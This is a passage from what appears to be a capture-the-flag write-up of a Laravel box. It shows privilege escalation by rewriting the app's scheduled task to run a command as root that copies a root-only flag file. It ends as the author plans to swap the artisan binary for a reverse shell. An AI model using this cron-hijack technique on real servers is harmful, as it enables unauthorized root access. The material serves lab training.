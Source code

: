 Opening that file in `vim` shows me this commented out schedule function. I have write permissions for this file, so I can add my own scheduling function.

```php
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    ...
    ...
    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        // $schedule->command('inspire')
        //          ->hourly();
    }
    ... 
    ... 
}
```

I replaced this scheduling function with my own:

```php
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('touch /tmp/flag.txt && cat /root/flag.txt > /tmp/flag.txt')
                  ->everyMinute();
    }
```

And waited for the cronjob to run. A file was created at `/tmp/flag.txt` by `root`, but it has a size of 0B. We'll have to try something else.

Let's try replacing the artisan binary with a reverse shell, since we have write permissions for the file (which can be checked by running `ls -l` in the `/var/www/laravel` directory)

```bash
www-data@cronos:/var/www/laravel$ ls -l
total 1996
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 Apr  9  2017 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
drwxr-xr-x  3 www-data www-data    4096 Apr  9  2017 bootstrap
-rw-r--r--  1 www-data www-data    1300 Apr  9  2017 composer.json
-rw-r--r--  1 www-data www-data  121424 Apr  9  2017 composer.lock
-rwxr-xr-x  1 www-data www-data 1836198 Apr  9  2017 composer.phar
drwxr-xr-x  2 www-data www-data    4096 Apr  9  2017 config
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 database
-rw-r--r--  1 www-data www-data    1062 Apr  9  2017 package.json
-rw-r--r--  1 www-data www-data    5491 Mar 31 12:06 php-reverse-shell.php
-rw-r--r--  1 www-data www-data    1055 Apr  9  2017 phpunit.xml
drwxr-xr-x  4 www-data www-data    4096 Apr  9  2017 public
-rw-r--r--  1 www-data www-data    3424 Apr  9  2017 readme.md
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 resources
drwxr-xr-x  2 www-data www-data    4096 Apr  9  2017 routes
-rw-r--r--  1 www-data www-data     563 Apr  9  2017 server.php
```